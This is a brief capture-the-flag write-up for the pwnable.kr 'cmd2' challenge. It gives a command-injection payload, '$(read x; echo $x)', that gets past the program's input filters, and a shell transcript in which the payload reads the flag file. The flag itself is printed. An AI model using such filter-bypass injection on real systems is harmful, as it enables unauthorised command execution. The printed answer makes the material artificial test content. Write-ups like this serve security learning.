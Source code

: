 # Source

Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

[code](./cmd2.c)

# 🚩Solve

Payload:

- W1: __./cmd2 '$(read x; echo $x)'__

```bash
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'
$(read x; echo $x)
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@pwnable:~$
```

Flag: ___FuN_w1th_5h3ll_v4riabl3s_haha___